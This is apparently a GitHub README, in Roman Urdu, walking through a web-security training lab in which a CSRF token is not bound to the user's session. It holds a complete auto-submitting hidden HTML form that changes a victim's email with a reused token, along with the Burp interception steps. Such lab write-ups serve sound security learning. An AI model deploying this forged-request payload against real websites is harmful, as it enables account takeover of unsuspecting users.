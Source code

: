 # 🔐 CSRF Lab: Token Not Tied to User Session

## 🧠 Lab Concept Overview

Is lab mein website CSRF token to use karti hai, lekin problem yeh hai ke **yeh token user ke session se linked nahi hota**. Matlab koi bhi token kisi bhi user pe apply ho jata hai — yeh major logic flaw hai.

---

## 📌 Real World Analogy:

Soch ke dekho ke har banda apna ID card kisi bhi doosre ke naam pe use kar sakta hai — aur system sirf card dekh ke kaam kar de, verify na kare ke banda wahi hai ke nahi.

---

## 🛠️ Step-by-Step Lab Solve (Simple Version by Habib)

### ✅ Step 1: Login as `wiener:peter`

* Burp browser mein lab URL open karo
* Login karo: `wiener : peter`
* Go to "My Account"

---

### ✅ Step 2: Intercept Email Change Request

* Email change form bhar ke submit karo (e.g. `test123@a1.com`)
* Burp Proxy mein request intercept karo:

  ```
  POST /my-account/change-email
  email=test123@a1.com
  csrf=E4s1CPthNVpvcGv4lNKLODIX5BrVNbPQ
  ```
* **CSRF token copy karo** (e.g. `E4s1CPthNVpvcGv4lNKLODIX5BrVNbPQ`)
* Request ko **DROP kar do** (taake token use na ho)

---

### ✅ Step 3: Exploit HTML Prepare Karo

* Exploit server pe jao
* Body section mein yeh code paste karo:

```html
<form method="POST" action="https://0a4c003f04775ba980646ceb00580037.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="asdas2@assa.com">
  <input type="hidden" name="csrf" value="E4s1CPthNVpvcGv4lNKLODIX5BrVNbPQ">
</form>
<script>
  document.forms[0].submit();
</script>
```

* ✅ Lab URL ka apna action link daalo
* ✅ Email koi **unique aur valid** likho
* ✅ CSRF token wahi wiener wali copy ki hui value rakho

---

### ✅ Step 4: Store & Deliver

* Click **Store** on exploit server
* Click **Deliver to Victim**
* ✅ **Lab Solved!**

---

## 🔍 Kya Seekha?

* Agar CSRF token user session se link nahi hota to koi bhi valid token kisi aur user pe apply ho sakta hai
* Ye logic flaw hota hai aur real-world mein bhi milta hai
* Penetration testing mein aise flaws test karne hote hain

---

## 🧠 Zuban Mein Summary:

> "Server token check to karta hai lekin ye dekhne ka system hi nahi banaya ke yeh token isi user ka hai. Isi liye hum wiener se token le ke carlos ke session mein use kar lete hain. Yeh dangerous logic flaw hai."

